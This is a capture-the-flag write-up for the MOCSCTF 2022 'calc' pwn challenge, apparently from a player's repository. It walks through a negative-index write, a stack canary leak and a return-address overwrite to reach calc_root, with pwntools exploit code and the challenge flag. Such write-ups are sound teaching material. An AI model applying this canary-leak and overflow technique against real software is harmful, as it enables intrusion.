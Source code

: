 # mocsctf2022.mocsctf.com - calc

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [calc.zip](calc.zip)

There is 1 file in zip:

- calc

Download the file and let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file calc

calc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea3703cc9b093c54402a5461acb0d88249d219f0, for GNU/Linux 3.2.0, not stripped
```

Wonderful! This is a 64-bit file without being stripped. This will be helpful when we debug our program. Next, we will use `checksec` to check all the security of file:

```
$ checksec calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

When can see that there is canary on stack and no PIE. That's all we can get for checksec. Finally, we will use ghidra to decompile the challenge file to get the flow.

Looking at all the functions, we can see that there is an interesting function named `calc_root`:

![calc_root.png](images/calc_root.png)

It will read and print out the flag for us. Very interesting! And another essential function is main().

The first thing in main() we can see is that with the first option `Set Numbers`, it get the position **without checking if it's a negative number or not** and compare with `local_d8` which containing `20`:

![main_local_d8.png](images/main_local_d8.png)

![main_input_pos.png](images/main_input_pos.png)

Then it take this pos variable, add `local_c8` and scanf():

![main_input_number.png](images/main_input_number.png)

In GDB with index 0 and 1, it will be like this:

![set_number_in_GDB.png](images/set_number_in_GDB.png)

But we can set number within (-oo ; 20] so that's the first bug.

The next option is `Calculate`, it get our input, then sum all data on stack from index 0 to our input and print out the final value:

![Calculate.png](images/Calculate.png)

So with index 1, it will work like this:

![calculate_result.png](images/calculate_result.png)

That's the data on stack:

![calculate_result_in_GDB.png](images/calculate_result_in_GDB.png)

Nothing we can get but just know how to leak stack data. 

And the last option is `Finish`, which is defined with just 24 char space:

![finish_var.png](images/finish_var.png)

But we can input upto 0x100 byte:

![finish_input.png](images/finish_input.png)

So that means **Buffer Overflow** and we have a `ret` right after our input. But there is canary on stack and how can we deal with it? We will try to leak it as the next part describes.

That's all we found. Let's move on next part: Brainstorming!

# 2. Brainstorming

We know that with the first option, we can change all the data, on stack, we want. Luckily, we can see that `local_c8`, which we `input the number` of option 1, is after `local_d8`, which contain 20 (0x14) to check if our index is larger than 20 or not

![order_of_var.png](images/order_of_var.png)

So we will change `local_d8` from 20 to a larger number so that when we get value on stack, we can get more than 20 index. Hence, we leak the canary value. And with **buffer overflow** in the `Finish` option, we control the rip to make it print out the flag.

- Summary:
  1. Leak stack canary
  2. Get flag

# 3. Exploit

Before we start our exploitation, I write those function to make our exploitation easier

<details>
<summary>Code snippet</summary>
<p>

```
def setnumber(pos, number):
	p.sendlineafter(b'choice:', b'1')
	p.sendlineafter(b'Please input the pos:', '{}'.format(pos).encode())
	p.sendlineafter(b'Please input the number:', '{}'.format(number).encode())

def calculate(many):
	p.sendlineafter(b'choice:', b'2')
	p.sendlineafter(b'How many?\n', '{}'.format(many).encode())
	# Result receive outside

def finish(data):
	p.sendlineafter(b'choice:', b'3')
	p.sendafter(b'What\'s your name?', data)
```

</p>
</details>

And now, we start!

### Stage 1: Leak stack canary

First, we will change the maximum of index from 20 to 0x100 with the `Set Number` option. Having a look in GDB, we know that the index which point to max index variable is `-2`:

![max_index_in_GDB.png](images/max_index_in_GDB.png)

So we change that with the following code:

```
setnumber(-2, 0x100)
```

Now the maximum index is 0x100, that's enough for us to exploit. Then, leaking canary will be the easy part, not easiest, because we know that `Calculate` will sum all the data on stack from index 0 to index of our input. For a faster leak, I will set all the data previous canary to 0x0 so when it `Calculate`, it just print our the stack canary.

So first, we set all the data before canary to 0x0 with the following code:

```
for i in range(23):
	setnumber(i, 0)
```

And now, we just leak the canary:

```
calculate(24)
data = int(p.recvline()[:-1].split(b':')[1])
print(data)
```

Running all of them should get us the canary:

![negative_canary.png](images/negative_canary.png)

Run several time and we get the negative canary value. Why is it negative? I thought the stack just like `0xffffffff`, there is no way it can be negative. The answer is it can be negative because:

![print_result.png](images/print_result.png)

The output format is `%lld`, which from `0` to `0x7fffffffffffffff` will be positive number, but from `0x8000000000000000` to `0xffffffffffffffff` will be negative number. So to deal with that leak, we will use [struct](https://docs.python.org/3/library/struct.html) (a module in python) to convert from that long int to hex:

```
canary = u64(struct.pack('<q', data))

# Just for printing the leak canary
log.success('Leak canary: ' + hex(canary))
```

Running the script several time and we get the negative leaked canary in hex:

![canary_leaked.png](images/canary_leaked.png)

Compared with canary in GDB:

![canary_leaked_in_GDB.png](images/canary_leaked_in_GDB.png)

And that's correct! We got the stack canary leaked! Let's move on final stage: Get flag!

### Stage 2: Get flag

With canary and **Buffer Overflow**, we now have the control of rip. Let's check where is our input placed in the last option with payload like this:

```
finish(b'A'*8)
```

![finish_input_placed.png](images/finish_input_placed.png)

Our new stack canary is `0xa2c6a51796813300` (Cause I re-run it :D). We can see that our input is just near the canary. Remember this order: `canary -> rbp -> rip` so that our final payload will be like this:

```
payload = b''
payload += b'A'*0x18                      # Pad to canary
payload += p64(canary)                    # Canary
payload += b'B'*0x8                       # Fake rbp
payload += p64(exe.sym['calc_root'])      # rip
finish(payload)
```

Running that script and we get the flag. 

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `MOCSCTF{3bbbbe8e-18c6-4da3-8bf9-fe38f154426c}`